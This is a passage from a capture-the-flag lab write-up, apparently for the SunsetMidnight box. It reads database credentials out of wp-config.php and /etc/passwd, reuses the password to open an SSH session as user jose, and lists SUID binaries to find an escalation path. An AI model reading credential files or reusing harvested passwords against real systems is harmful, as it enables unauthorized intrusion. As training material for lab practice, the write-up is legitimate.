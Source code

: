     drwxr-x--- 21 www-data www-data 12288 Jun 10  2020 wp-includes      
    -rw-r-----  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
    -rw-r-----  1 www-data www-data  3300 Feb  6  2020 wp-load.php 
    -rw-r-----  1 www-data www-data 47874 Feb  9  2020 wp-login.php   
    -rw-r-----  1 www-data www-data  8509 Apr 14  2020 wp-mail.php    
    -rw-r-----  1 www-data www-data 19396 Apr  9  2020 wp-settings.php 
    -rw-r-----  1 www-data www-data 31111 Feb  6  2020 wp-signup.php   
    -rw-r-----  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
    -rw-r-----  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php

Checking `wp-config.php` reveals credentials for a db user named `jose`.

    /** MySQL database username */                                                    
    define( 'DB_USER', 'jose' );                                                      
                                     
    /** MySQL database password */                                                    
    define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

The password appears to be a hash but `wp-config.php` passwords are stored in plaintext so `645dc5a8871d2a4269d4cbe23f6ae103` is jose's actual password.

Checking the `/etc/passwd` file confirms that there is a `jose` user on the box as well.

    jose:x:1000:1000:jose,,,:/home/jose:/bin/bash

Let's try to log into jose's shell account.  We could use `su` but connecting via ssh will provide us with a full shell.

    ┌──(kali㉿kali)-[/mnt/hgfs/Cyber/proving_grounds/sunsetmidnight]
    └─$ ssh jose@192.168.173.88  
    The authenticity of host '192.168.173.88 (192.168.173.88)' can't be established.
    ED25519 key fingerprint is SHA256:N34us4v1mkW033FYIZ39T+rJmHj/ma/cmHbf/S6AovA.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.173.88' (ED25519) to the list of known hosts.
    jose@192.168.173.88's password: 
    Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jose@midnight:~$

We now have a full shell account as `jose`, checking the avialable SUID binaries reveals an unusual entry for `/usr/bin/status`.

    jose@midnight:~$ find / -perm /4000 2> /dev/null
    /usr/bin/su
    /usr/bin/sudo
    /usr/bin/fusermount
    /usr/bin/status
    /usr/bin/chfn
    /usr/bin/passwd
    /usr/bin/chsh
    /usr/bin/umount
    /usr/bin/newgrp
    /usr/bin/mount
    /usr/bin/gpasswd
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
